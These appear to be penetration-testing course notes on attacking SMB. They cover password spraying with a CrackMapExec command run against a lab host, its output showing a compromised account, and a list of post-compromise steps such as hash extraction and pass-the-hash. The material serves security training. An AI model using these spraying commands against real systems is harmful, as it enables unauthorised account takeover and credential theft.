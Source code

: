 ## Protocol Specifics Attacks
* If a null session is not enabled, we will need credentials to interact with the SMB protocol
* [brute forcing](https://en.wikipedia.org/wiki/Brute-force_attack) and [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack)

#### Brute Forcing and Password Spray
* Try as many passwords as possible against an account
* Can lock out an account if threshold hit
* Password spraying better way since we can target a list of usernames with one common password to avoid account lockouts
* We can try more than one password if we know the account lockout threshold
* We can use [CME](https://wiki.porchetta.industries/getting-started/using-credentials)

```bash
cat /tmp/userlist.txt

Administrator
jrodriguez 
admin
<SNIP>
jurena
```

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```

* `--local-auth` authenticate locally to each target - continues authentication attempts even after successes

**Note:** By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. It is very useful for spraying a single password against a large user list. 

#### SMB
* When attacking a Windows SMB Server, our actions will be limited by the privileges we had on the user we manage to compromise
* If this user is an Administrator or has specific privileges, we will be able to perform operations such as:
	-   Remote Command Execution
	-   Extract Hashes from SAM Database
	-   Enumerating Logged-on Users
	-   Pass-the-Hash (PTH)
